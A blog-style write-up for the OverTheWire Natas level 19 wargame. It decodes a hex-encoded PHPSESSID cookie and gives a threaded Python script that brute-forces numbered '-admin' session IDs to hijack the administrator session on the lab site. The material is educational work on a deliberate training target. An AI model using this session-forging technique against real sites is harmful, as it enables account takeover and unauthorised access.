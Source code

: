 ```yaml
---
layout: post
title:  "Natas Level 18 → Level 19"
date:   2021-05-29 20:55:52
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: What the hex?
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas19 site tells us that the site is nearly identical to the previous level, and that session ids are no longer sequential. There is no source code to view.

Let's start opening the Developer Tools, clicking on Storage, and then entering some random data into the username and password fields.

We now have a much longer value for PHPSESSID. Here's the value I received:

```
3335362d6e617461733230
```

My first thought is the value appears to be hexadecimal. Let's treat it as such and attempt to decode it. While there are plenty of tools to decode base64, I opted to use [CyberChef](https://gchq.github.io/CyberChef). Feel free to use any utility you want to decode the value.

CyberChef returned **356-natas20**. This looks like the PHPSESSID is now made up of a random number, followed by a dash, followed by the username entered into the form.

Let's update our script from the last level.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

natas19_password = '4------------------------------s'
session = requests.Session()


def get_phpsessid(id):
    raw_id = str(id) + "-admin"
    enc_id = raw_id.encode('utf-8').hex()

    resp = requests.get('http://natas19.natas.labs.overthewire.org/index.php',
                        cookies={"PHPSESSID": enc_id},
                        auth=HTTPBasicAuth('natas19', natas19_password))

    if "You are logged in as a regular user" not in resp.text:
        print(f'The admin id is {id}')
        print(resp.text)
        exit(0)


with concurrent.futures.ThreadPoolExecutor() as executor:
    executor.map(get_phpsessid, list(range(641)))
```